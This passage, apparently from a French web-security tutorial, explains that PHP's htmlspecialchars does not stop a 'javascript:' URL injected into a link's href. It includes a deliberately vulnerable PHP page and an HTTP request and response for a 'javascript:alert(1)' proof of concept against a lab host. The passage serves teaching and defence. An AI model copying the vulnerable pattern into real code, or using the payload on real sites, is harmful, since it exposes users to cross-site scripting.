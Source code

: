 ```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "href" d'un lien</title>
  </head>
  <body>
     <p><?php echo '<a href="' . htmlspecialchars($_GET["param"]) . '">Lien</a>'; ?></p>
  </body>
</html>
```

L'affichage de la modale (ou l'exécution d'un code Javascript relativement simple) n'utilise pas les caractères transformés par la fonction PHP :&#x20;

```http
GET /minipoc/htmlspecialchars/?param=javascript:alert(1) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Une injection simple</title>
  </head>
  <body>
     <p><a href="javascript:alert(1)">Lien</a></p>
  </body>
</html>
```

Le code Javascript est exécuté lorsque la victime clique sur le lien :&#x20;

![](<../../../.gitbook/assets/image (37).png>)

De plus, selon le contexte d'interprétation des caractères ainsi transformés, cela peut n'avoir aucune incidence :&#x20;
